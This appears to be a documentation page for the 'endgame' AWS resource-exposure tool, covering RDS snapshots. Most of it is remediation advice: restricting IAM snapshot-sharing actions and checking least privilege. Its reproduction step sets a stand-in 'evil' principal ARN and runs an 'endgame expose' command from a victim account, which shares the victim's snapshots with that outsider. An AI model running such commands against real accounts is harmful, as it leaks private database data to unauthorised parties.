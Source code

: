 # RDS Snapshots

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service rds --name test-resource-exposure
```

## Example

## Exploitation

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that RDS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the RDS Snapshots.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your RDS Snapshots**: Tightly control access to the following IAM actions:
  - [rds:DescribeDbClusterSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshotAttributes.html): _Grants permission to return a list of DB cluster snapshot attribute names and values for a manual DB cluster snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbClusterSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshots.html): _Grants permission to return information about DB cluster snapshots._
  - [rds:DescribeDbSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshotAttributes.html): _Grants permission to return a list of DB snapshot attribute names and values for a manual DB snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshots.html): _Grants permission to return information about DB snapshots_
  - [rds:ModifyDbSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB snapshot. This includes the ability to share snapshots with other AWS Accounts._
  - [rds:ModifyDbClusterSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBClusterSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB cluster snapshot. This includes the ability to share snapshots with other AWS Accounts._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

- [aws rds modify-db-cluster-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-cluster-snapshot-attribute.html)
- [aws rds modify-db-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-snapshot-attribute.html)
